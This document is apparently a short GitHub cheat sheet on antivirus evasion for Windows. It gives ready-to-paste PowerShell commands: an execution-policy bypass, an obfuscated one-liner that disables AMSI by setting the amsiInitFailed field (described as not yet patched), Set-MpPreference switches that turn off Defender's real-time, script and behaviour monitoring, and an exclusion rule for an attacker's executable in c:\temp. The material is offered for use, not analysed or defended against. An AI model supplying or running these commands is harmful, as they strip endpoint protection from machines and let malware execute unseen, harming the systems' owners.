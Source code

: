 # Antivirus Bypass & Evasion Techniques

## Bypassing AMSI and Disable Execution Policy

- `PS C:\> powershell -ep bypass`
- So now that we have bypassed PowerShell’s execution policy, we need to disable AMSI. Below is a good bypass for AMSI that hasn’t been patched by Microsoft yet. Type this into the PowerShell console to bypass AMSI. There are several others out there, but this is my go-to.
- `sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )`


### Disable AV if and only if you are admin

#### disable
`powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true'`

#### Or exclude
`powershell -command 'Add-MpPreference -ExclusionPath "c:\temp" -ExclusionProcess "c:\temp\yourstuffs.exe"'`